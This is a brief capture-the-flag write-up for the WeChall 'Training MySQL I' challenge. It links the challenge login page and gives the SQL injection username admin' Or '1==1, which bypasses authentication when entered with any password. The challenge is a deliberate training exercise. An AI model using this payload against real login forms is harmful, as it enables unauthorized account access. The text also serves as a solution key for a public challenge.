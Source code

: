 # Training MySQL I

![](problem.png)

login page: http://www.wechall.net/challenge/training/mysql/auth_bypass1/index.php

![](result.png)

username: admin' Or '1==1
password: anything

